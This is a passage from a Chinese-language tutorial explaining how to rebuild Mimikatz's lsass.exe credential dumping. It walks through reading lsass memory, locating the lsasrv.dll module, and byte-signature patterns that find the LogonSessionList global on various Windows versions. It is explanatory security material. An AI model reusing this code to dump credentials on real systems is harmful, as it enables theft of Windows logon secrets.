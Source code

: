 ```c++
			}
		}
	}
	return status;
}
```

在 `GetVeryBasicModuleInformations()` 内部，首先调用 `GetProcessPeb()` 函数检索有关 lsass.exe 进程的 PEB 结构信息，并通过 `ReadProcessMemory()` 函数将 `Peb.Ldr` 指向的 `PEB_LDR_DATA` 结构复制到 `LdrData` 中。

然后遍历所有 `LDR_DATA_TABLE_ENTRY` 结构，分别获取模块地址、映像文件大小和映像文件名称，并把它们保存到 `moduleInformation` 中，这是了一个 `PROCESS_VERY_BASIC_MODULE_INFORMATION` 结构体，其定义如下，用于存储 lsasrv.dll 模块的有关信息。

```c++
typedef struct PROCESS_VERY_BASIC_MODULE_INFORMATION {
	KULL_M_MEMORY_ADDRESS DllBase;                  // 存储已加载模块的地址
	ULONG SizeOfImage;                              // 存储已加载模块的映像大小
	ULONG TimeDateStamp;
	PCUNICODE_STRING NameDontUseOutsideCallback;    // 存储已加载模块的映像名称
} PROCESS_VERY_BASIC_MODULE_INFORMATION, *PKULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION;
```

最后调用自定义函数 `FindModules()`，通过 `_wcsicmp()` 函数比较当前循环中的模块名称与 `LsassPackages[i]->ModuleName`，也就是 `Lsass_Msv1_0_Package.ModuleName` 中定义的模块名称（lsasrv.dll）是否相等，就将模块信息保存到 `LsassPackages[i]->Module.Informations` 中，如下所示。

```c++
BOOL FindModules(PPROCESS_VERY_BASIC_MODULE_INFORMATION pModuleInformation)
{
	for (ULONG i = 0; i < ARRAYSIZE(LsassPackages); i++)
	{
		if (_wcsicmp(LsassPackages[i]->ModuleName, pModuleInformation->ModuleName->Buffer) == 0)
		{
			LsassPackages[i]->Module.isPresent = TRUE;
			LsassPackages[i]->Module.Informations = *pModuleInformation;
		}
	}

	return TRUE;
}
```

至此，成功获取 lsass.exe 进程中加载的 lsasrv.dll 模块的信息，`GetVeryBasicModuleInformations()` 函数调用结束。接下来，将调用 `LsaSearchGeneric()` 函数来定位 `LogonSessionList` 和 `LogonSessionListCount` 这两个全局变量。

### 2.1.4 获取 LogonSessionList 变量地址

前文中提到，在定位 `LogonSessionList` 和 `LogonSessionListCount` 这两个关键的全局变量时，采用签名扫描的方法。参考 Mimikatz，可以将常见系统版本的特征码保存在一个名为 `LsaSrvReferences[]` 的数组中，这些特征码用于识别引用 `LogonSessionList` 和 `LogonSessionListCount` 的指令，如下所示。

```c++
BYTE PTRN_WIN5_WLsaEnumerateLogonSession[] = { 0x4c, 0x8b, 0xdf, 0x49, 0xc1, 0xe3, 0x04, 0x48, 0x8b, 0xcb, 0x4c, 0x03, 0xd8 };
BYTE PTRN_WN60_WLsaEnumerateLogonSession[] = { 0x33, 0xff, 0x45, 0x85, 0xc0, 0x41, 0x89, 0x75, 0x00, 0x4c, 0x8b, 0xe3, 0x0f, 0x84 };
BYTE PTRN_WN61_WLsaEnumerateLogonSession[] = { 0x33, 0xf6, 0x45, 0x89, 0x2f, 0x4c, 0x8b, 0xf3, 0x85, 0xff, 0x0f, 0x84 };
BYTE PTRN_WN63_WLsaEnumerateLogonSession[] = { 0x8b, 0xde, 0x48, 0x8d, 0x0c, 0x5b, 0x48, 0xc1, 0xe1, 0x05, 0x48, 0x8d, 0x05 };
BYTE PTRN_WN6x_WLsaEnumerateLogonSession[] = { 0x33, 0xff, 0x41, 0x89, 0x37, 0x4c, 0x8b, 0xf3, 0x45, 0x85, 0xc0, 0x74 };
BYTE PTRN_WN1703_WLsaEnumerateLogonSession[] = { 0x33, 0xff, 0x45, 0x89, 0x37, 0x48, 0x8b, 0xf3, 0x45, 0x85, 0xc9, 0x74 };
BYTE PTRN_WN1803_WLsaEnumerateLogonSession[] = { 0x33, 0xff, 0x41, 0x89, 0x37, 0x4c, 0x8b, 0xf3, 0x45, 0x85, 0xc9, 0x74 };
```
